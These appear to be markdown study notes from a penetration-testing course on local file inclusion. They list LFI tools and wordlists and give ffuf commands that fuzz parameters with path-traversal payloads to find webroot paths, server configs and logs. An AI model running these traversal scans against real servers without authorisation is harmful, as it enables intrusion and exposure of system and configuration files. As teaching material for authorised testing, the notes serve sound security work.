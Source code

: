 Common tools(Outdated)
 [LFISuite](https://github.com/D35m0nd142/LFISuite)
 [LFiFreak](https://github.com/OsandaMalith/LFiFreak)
 [liffy](https://github.com/mzfr/liffy)
 
#### Fuzzing parameter values
```shell-session
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value'
```

Wordlist
	https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#top-25-parameters


#### LFI Fuzzing
Wordlist
	https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI
	https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

```shell-session
ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ'
```


#### Fuzzing Server Files

Files to look for
 `Server webroot path`, `server configurations file`, and `server logs`

##### Finding server Webroot path

Wordlist
	Linux- https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt
	Windows- https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt
	Extra- https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

```shell-session
ffuf -w /PATH/FILE:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php'
```

##### Finding server log/config

***Note***:Webserver variables are stored here in apache (/etc/apache2/envvars)

Wordlist
	Linux- https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
	Windows- https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows
	Extra- https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

Step 1
```shell-session
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ'
```
***Note***: We need to take our result from this and check what pages we can read to get info about the server

